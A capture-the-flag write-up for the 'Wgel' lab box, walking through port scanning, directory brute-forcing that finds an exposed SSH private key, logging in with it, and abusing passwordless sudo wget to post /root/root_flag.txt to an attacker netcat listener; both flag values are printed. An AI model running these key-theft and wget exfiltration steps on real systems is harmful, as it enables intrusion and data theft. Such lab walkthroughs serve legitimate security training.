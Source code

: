 # Wgel CTF

## Description

Have fun with this easy box.

# Initial Scan

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 5.4 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Nmap scan shows two open ports:

* 22 ssh
* 80 http

# Web

The ssh service requires creds, so i moved on to the web page. I started enumerating by running gobuster on the web page. While it was running I started checking the source code and found a username: `jessie`

Gobuster found `/sitemap`. I ran gobuster on it again and ended up finding a very useful file.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkThroughs/thm/Wgel]
└─$ gobuster dir -u http://$IP:80/sitemap/.ssh -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.194.38:80/sitemap/.ssh
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/22 06:08:49 Starting gobuster in directory enumeration mode
===============================================================
/id_rsa               (Status: 200)
~~~

# Gaining a Shell

This file contained a private RSA key. I saved it as "rsa_key" and set its permission to 600 and then using the username I found earlier, logged on SSH service and now I have a shell as "jessie".

~~~
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Wgel/files]
└─$ chmod 600 rsa_key  
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Wgel/files]
└─$ ssh -i rsa_key jessie@$IP
The authenticity of host '10.10.194.38 (10.10.194.38)' can't be established.
ECDSA key fingerprint is SHA256:9XK3sKxz9xdPKOayx6kqd2PbTDDfGxj9K9aed2YtF0A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.194.38' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ id
uid=1000(jessie) gid=1000(jessie) groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
~~~

# User Flag

I started looking around in the home directory and found the user flag in `~/Documents`.

~~~
jessie@CorpOne:~$ cat Documents/user_flag.txt 
057c67131c3d5e42dd5cd3075b198ff6
~~~

user flag: `057c67131c3d5e42dd5cd3075b198ff6`

## Root Flag

Now I need to gain the root flag. I ran `sudo -l` and I can run `wget` with sudo and no apssword. There many thing we can do here but I go with the faster one. We can use this command to post files too. After seeing the user flag's name we can kinda guess the name of the root flag file. So I started a listener on my machine and then posted the root flag to my machine.

On my machine:
~~~
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Wgel/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

On target machine:
~~~
jessie@CorpOne:~$ sudo wget --post-file=/root/root_flag.txt 10.9.0.154:4444
--2021-09-22 14:04:37--  http://10.9.0.154:4444/
Connecting to 10.9.0.154:4444... connected.
HTTP request sent, awaiting response...
~~~

And now the root flag has been sent.
~~~
┌──(user㉿Y0B01)-[~/…/walkThroughs/thm/Wgel/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.0.154] from (UNKNOWN) [10.10.194.38] 38728
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.9.0.154:4444
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d
~~~

Root flag: `b1b968b37519ad1daa6408188649263d`

# D0N3! ; )

Hope you had fun hacking! : )
